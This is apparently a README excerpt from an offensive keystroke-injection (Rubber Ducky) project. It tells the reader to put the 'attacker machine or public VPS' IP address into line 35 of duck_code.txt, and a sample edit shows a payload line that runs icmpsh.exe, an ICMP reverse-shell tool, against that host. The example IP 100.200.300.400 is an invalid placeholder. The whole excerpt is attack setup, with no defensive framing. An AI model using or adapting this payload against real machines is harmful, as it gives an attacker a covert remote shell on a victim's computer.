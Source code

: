 ### Important

Make sure you change the IP address <Server IP missing> in duck_code.txt Line 35 
to whatever IP address the attacker machine or public VPS is listening on!

### Sample edit

```
Line 35# STRING $payload = "$dst\icmpsh.exe -t <Server IP missing> -d 500 -b 30 -s 128"

Line 35# STRING $payload = "$dst\icmpsh.exe -t 100.200.300.400 -d 500 -b 30 -s 128"
```
